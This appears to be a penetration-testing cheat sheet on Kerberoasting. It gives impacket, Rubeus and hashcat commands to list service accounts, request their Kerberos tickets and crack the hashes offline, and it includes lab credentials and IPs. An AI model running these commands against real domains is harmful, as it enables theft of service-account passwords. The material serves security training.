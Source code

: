 # Kerberoasting

The service ticket is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as [_Kerberoasting_](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).

## Linux

Enumerates SPN accounts:

{% code overflow="wrap" %}
```
sudo impacket-GetUserSPNs hutch.offsec/fmcsorley:CrabSharkJellyfish192 -dc-ip 192.168.219.122
```
{% endcode %}

* `hutch.offsec/fmcsorley:CrabSharkJellyfish192`\
  The domain, username, and password used to authenticate to the domain controller.
* `-dc-ip 192.168.219.122`\
  Specifies the IP address of the domain controller to query.

Request TGS and output hashes for cracking:

{% code overflow="wrap" %}
```sh
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
{% endcode %}

* &#x20;**-dc-ip:** IP of the domain controller
* **-request:** obtain the TGS and output them in a compatible format for Hashcat

## Windows

Kerberoasting using Rubeus:

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

* **kerberoast:** launch kerberoasting technique&#x20;
* **/outfile:** file to store the resulting TGS-REP hash

As we execute Rubeus as an **authenticated domain user**, the tool will identify all SPNs linked with a domain user.

## Crack the hash

Identify hash mode for hashcat:

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:&#x20;

{% code overflow="wrap" %}
```sh
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}



